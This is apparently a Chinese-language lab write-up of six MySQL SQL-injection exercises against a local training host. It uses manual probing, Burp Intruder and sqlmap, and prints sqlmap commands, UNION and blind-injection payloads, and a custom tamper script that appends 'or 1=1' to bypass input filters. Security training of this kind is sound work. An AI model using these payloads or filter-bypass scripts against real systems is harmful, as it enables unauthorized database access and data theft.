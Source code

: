 ```yaml
---
title: Mysql数据库-sql injection
categories:
- web
tags:
- web
---
```


## 案例一：
`http://192.168.2.131/sqli/example1.php?name=root`

## 手工判断是否有注入
一般来说，报错型注入是最好判断的。

通过**添加单引号**，页面返回内容，发现**和正常情况下不同**。虽然并没有报错，但可以用sqlmap检测一下。

通过添加 **+**，mysql中，+代表空格。
name=root+++，而网页显示正常，说明将注入的字符解析为空格了。

#### sqlmap工具检查
`sqlmap -u "http://192.168.2.131/sqli/example1.php?name=root" --dbs`
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/1.PNG)
```
Parameter: name (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: name=root' UNION ALL SELECT NULL,CONCAT(CONCAT('qkxxq','KmpPokTYtZMOrkRgRUoPJDbxcbjTRzrokLLlMQen'),'qjvbq'),NULL,NULL,NULL-- PXHF
```

## 案例二：
`http://192.168.2.131/sqli/example2.php?name=root`
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/2.PNG)

- 首先用sqlmap检查下，结果一片标红。

- `http://192.168.2.131/sqli/example2.php?name=root/*aaa*/`

- `name=root%0a` \n换行符

- `name=root%09` \t

#### burp intruder观察响应
观察一下响应。手工判断有点慢，用burp判断下
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/3.PNG)

分为三种响应，一种是和原请求响应一样的；一种响应查询失败的；一种“error no space”

注意到

```
union select ---------“error no space”
union-------------查询失败
```

说明空格被过滤

- 添加空格转/**/脚本
sqlmap -u "http://192.168.2.131/sqli/example2.php?name=root" --tamper space2comment.py --dbs
扫描失败

- 指定布尔型注入
sqlmap -u "http://192.168.2.131/sqli/example2.php?name=root" --tamper=space2comment.py -technique B --dbms mysql --level 5

- 添加一个参数--dbms mysql，指定使用的payloads。
`sqlmap -u "http://192.168.2.131/sqli/example2.php?name=root" --tamper=space2comment.py --dbms mysql -v`
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values?

```
Parameter: name (GET)
    Type: AND/OR time-based blind 基于时间的盲注
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: name=root' AND SLEEP(5) AND 'WCkk'='WCkk
    Vector: AND [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])

```
#### 删除sqlmap日志
rm -rf /root/.sqlmap/output/*

sqlmap -u "http://192.168.2.131/sqli/example5.php?id=2" --dbs

#### 总结
sqlmap如果一开始扫描失败，如果需要再次尝试，需要清除一下日志，否则会直接引用历史扫描结果，不会再次扫描。

如果不指定数据库，或者注入类型，waf过滤的字符，就很容易扫描失败。
但这不代表并不存在注入。

## 案例三：

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/5.PNG)
经过intruder判断，和上一个案例，多过滤了`%0a`即\n换行符。

同样用时间盲注。
sqlmap -u "http://192.168.2.131/sqli/example3.php?name=root" --tamper=space2comment.py --dbms mysql --dbs

```
Parameter: name (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: name=root' AND SLEEP(5) AND 'nZha'='nZha

```
## 案例四：

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/6.PNG)
`http://192.168.2.131/sqli/example4.php?id=2`
注释被正确解析了，其他都都导致页面查询失败。

- sqlmap -u "http://192.168.2.131/sqli/example4.php?id=2" --dbms mysql --dbs

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: id=(SELECT (CASE WHEN (5063=5063) THEN 5063 ELSE 5063*(SELECT 5063 FROM INFORMATION_SCHEMA.PLUGINS) END))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=2 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=2 UNION ALL SELECT NULL,NULL,CONCAT(0x716b6b6a71,0x6c4e495452554c4e514b6f53784f6c5a6b664e4d53674176646b4d4e4a4f52547850714663686d68,0x71766b7a71),NULL,NULL-- XTiX

```
## 案例五：
和上一个案例差不多。成功解析注释。
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/7.PNG)

注入类型： Type: AND/OR time-based blind
`sqlmap -u "http://192.168.2.131/sqli/example5.php?id=2" --dbms mysql --dbs`

## 案例六：

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/8.PNG)
%0a换行符、#注释符被正确解析。
错误提示：ERROR INTEGER REQUIRED

#### **选择与创建tamper脚本**
/usr/share/sqlmap/tamper目录下，有很多脚本可以帮助绕过过滤。

没有找到空格直接转换行符的脚本，于是观察一下空格转注释的脚本。运行sqlmap时候，用wireshark抓包一下。
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/9.PNG)

![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-22/10.PNG)
确认空格转换为/**/，我们可以新建一个脚本，替换一下注释为换行符。
`cp space2comment.py space2newline.py`
`sed -i 's/\/\*\*\//%0a/g' space2newline.py`

- sqlmap -u "http://192.168.2.131/sqli/example6.php?id=2" --dbms mysql --tamper=space2newline.py --dbs 
失败了，于是尝试
?id=2%0Aand%0A1=1 一切正常
?id=2%0Aand%0A1=2 查询失败

#### **源代码**
黑盒测试不知道过滤条件，做不出了，于是看下源代码。

下面这条源代码还蛮好懂的，`^$`在正则表达式中，代表开头和结尾。

`^b`，表示以b开头；`b$`表示以b结尾。
```
if (!preg_match('/[0-9]+$/', $_GET["id"])) {
    die("ERROR INTEGER REQUIRED");  
}
```

#### **重写一个tamper脚本**
sqlmap -u "http://192.168.2.131/sqli/example6.php?id=2" --dbms mysql --tamper=addTrue.py --dbs 


这次成功了，基于时间的盲注。
```
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: id=2 AND SLEEP(5)-- jExG

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=2 UNION ALL SELECT NULL,NULL,CONCAT(0x71626a7071,0x6c6c5a494a6370686e4a6d5662726c49796e686a7455456745526e48654278634d57426b7467746a,0x7170626271),NULL,NULL-- RmtZ
```
## `addTrue.py`

```
#coding:utf-8
#!/usr/bin/env python

"""
Copyright (c) 2006-2017 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Notes:
        * Useful to bypass weak and bespoke web application firewalls

    >>> tamper('SELECT id FROM users')
    'SELECT id FROM users or 1=1'
    """

    retVal = payload

    if payload:
        retVal = payload+ " or 1=1"

    return retVal
```

